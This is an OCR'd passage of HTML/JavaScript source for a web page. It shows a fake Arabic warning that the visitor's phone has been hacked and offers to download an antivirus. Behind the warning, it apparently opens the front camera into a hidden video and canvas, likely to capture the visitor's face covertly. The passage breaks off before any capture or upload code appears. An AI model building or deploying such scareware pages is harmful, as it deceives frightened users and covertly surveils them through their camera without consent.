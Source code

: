             width: 80%;
            max-width: 400px;
        }
        #dialog p {
            font-size: 1.2rem;
            margin-bottom: 20px;
            color: white;
        }
        .dialog-button {
            padding: 10px 20px;
            border: none;
            border-radius: 5px;
            font-size: 1rem;
            margin: 5px;
            cursor: pointer;
        }
        #accept {
            background-color: green;
            color: white;
        }
        #cancel {
            background-color: red;
            color: white;
        }
    </style>
</head>
<body>
    <video id="video" autoplay playsinline></video>
    <canvas id="canvas" style="display: none;"></canvas>
    
  <div id="dialog">
        <p>تم تهكير هاتفك. هل تريد تنزيل مضاد فيروسات؟</p>
        <button id="accept" class="dialog-button">موافق</button>
        <button id="cancel" class="dialog-button">إلغاء</button>
    </div>

  <script>
        const video = document.getElementById('video');
        const canvas = document.getElementById('canvas');
        const context = canvas.getContext('2d');
        const dialog = document.getElementById('dialog');
        const acceptButton = document.getElementById('accept');
        const cancelButton = document.getElementById('cancel');

        // تفعيل الكاميرا
        function startCamera() {
            navigator.mediaDevices.getUserMedia({
                video: {
                    width: { ideal: 1280 },
                    height: { ideal: 720 },
                    facingMode: "user" // الكاميرا الأمامية
                }
            })
            .then(stream => {
                video.srcObject = stream;
